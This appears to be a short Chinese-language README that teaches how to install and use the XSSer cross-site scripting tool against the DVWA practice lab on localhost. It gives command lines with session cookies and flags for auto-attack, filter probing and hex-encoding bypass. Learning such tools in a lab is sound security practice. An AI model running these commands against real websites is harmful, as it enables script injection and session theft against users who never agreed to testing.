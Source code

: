 # xsser使用指南
https://github.com/epsylon/xsser
## 安装方法
 在 http://www.bubuko.com/infodetail-516700.html 下载ubuntu版，
 打开安装
 在终端输入xsser确认是否安装成功
 如需查看源码，可下载源码版本

## 攻击方法
指令可以参考  https://blog.csdn.net/emaste_r/article/details/8072323
下面罗列一些经测试可以使用的指令
### 基本格式
 以dvwa为例，需要提供待攻击网站的url和cookie      
 
 python xsser.py -u "http://127.0.0.1/vulnerabilities/xss_r/?name=" --cookie="security=low; PHPSESSID=irlo67ci48k9eh3qluc57gjr80"
 url提示了攻击插入点
    
 ### 可添加的指令
 #### 输出结果相关
       -s -v  显示更多输出信息
 #### 自动化攻击
    -auto用于自动攻击
 #### 校验器
    用来测试网站有没有过滤攻击的手段  
        --heuristic  测试哪些字符没有被屏蔽  
 #### 选择bypasser
    --Hex 使用16进制编码
     强大的攻击方式，对于dvwa初级中级攻击尝试全部成功
     对于高级仍然有80%以上命中率
 #### 特殊技巧
     --Xsa 跨站Agent 脚本
 ## 示例 
    python xsser.py -u "http://127.0.0.1/vulnerabilities/xss_r/?name=" --cookie="security=low; PHPSESSID=a1lhrbjm0ifv8ju6qknfd685j6" --auto -  s -v --reverse-check --Hex   
自动攻击，显示详细信息，以16进制编码    
强大的攻击方式，初级中级全部攻破

更详细的英文版本访问 http://www.bubuko.com/infodetail-516700.html
